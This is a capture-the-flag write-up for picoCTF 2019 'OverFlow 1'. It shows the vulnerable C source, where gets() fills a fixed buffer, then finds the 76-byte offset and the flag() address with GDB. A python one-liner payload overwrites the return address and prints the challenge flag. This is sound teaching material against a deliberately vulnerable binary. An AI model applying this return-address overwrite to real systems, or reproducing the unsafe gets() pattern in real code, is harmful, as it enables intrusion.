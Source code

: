 # PicoCTF19 OverFlow 1

## Challenge

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](https://2019shell1.picoctf.com/static/8b7521756bddb2cce5c14fd2b60cd354/vuln? You can find it in /problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389 on the shell server. [Source](https://2019shell1.picoctf.com/static/8b7521756bddb2cce5c14fd2b60cd354/vuln.c).

## Hints

Take control that return address

Make sure your address is in Little Endian.

## Solution

Let's view that directory:

```bash
samson@pico-2019-shell1:/problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389$ ls -al
total 92
drwxr-xr-x   2 root       root          4096 Sep 28 21:51 .
drwxr-x--x 684 root       root         69632 Oct 10 18:02 ..
-r--r-----   1 hacksports overflow-1_3    42 Sep 28 21:51 flag.txt
-rwxr-sr-x   1 hacksports overflow-1_3  7532 Sep 28 21:51 vuln
-rw-rw-r--   1 hacksports hacksports     742 Sep 28 21:51 vuln.c
```

Let's view `vuln.c`

```
samson@pico-2019-shell1:/problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389$ cat vuln.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

As expected, there is a function that prints the flag but it's never explicitly called.

The program takes a string and attempts to jump to that address. But hey, since this is an overflow question let's just give the program a bunch of garbage and see what happens.

```bash
samson@pico-2019-shell1:/problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389$ ./vuln
Give me a string and lets see what happens: 

Woah, were jumping to 0x8048705 !
samson@pico-2019-shell1:/problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389$ ./vuln
Give me a string and lets see what happens: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Woah, were jumping to 0x41414141 !
Segmentation fault (core dumped)
```

Hmm: `0x41414141`. If you're familiar with the [ASCII Table](https://en.wikipedia.org/wiki/ASCII), `A` is `41` in hexadecimal.

So it looks like we overwrite some instructions with our input. Let's find the minimal amount of `A`'s required to change the jump address.

```bash
samson@pico-2019-shell1:/problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389$ echo $(python -c "print 'A'*77") | ./vuln
Give me a string and lets see what happens:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Woah, were jumping to 0x8040041 !
Segmentation fault (core dumped)
```

Notice how with no input the value is `0x8048705` but with 77 `A`'s, it's `0x8040041`.

You can see the first `41` is at the end. This is due to `x86_64` working in little endian mode.

So basically this overflow seems like we might have to overwrite the address with the address of the flag and in order to do that we first need to figure out which memory address the flag function is located at and we can do that with GDB.

```bash
samson@pico-2019-shell1:/problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389$ gdb ./vuln 
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
... <redacted>
Reading symbols from ./vuln...(no debugging symbols found)...done.
(gdb) x flag
0x80485e6 <flag>:       0x53e58955
(gdb) q
```

There it is at memory address `0x80485e6`.

Let's try working that into the address:

```bash
samson@pico-2019-shell1:/problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389$ echo $(python -c "print 'A'*77+'\xe6'")  | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x800e641 !
Segmentation fault (core dumped)
samson@pico-2019-shell1:/problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389$ echo $(python -c "print 'A'*76+'\xe6'") | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80400e6 !
Segmentation fault (core dumped)
samson@pico-2019-shell1:/problems/overflow-1_3_f08d494c74b95dae41bff71c2a6cf389$ echo $(python -c "print 'A'*76+'\xe6\x85\x04\x08'") | ./vuln
Give me a string and lets see what happens: 
Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a21b59fb}Segmentation fault (core dumped)
```

## Flag

`picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5a21b59fb}`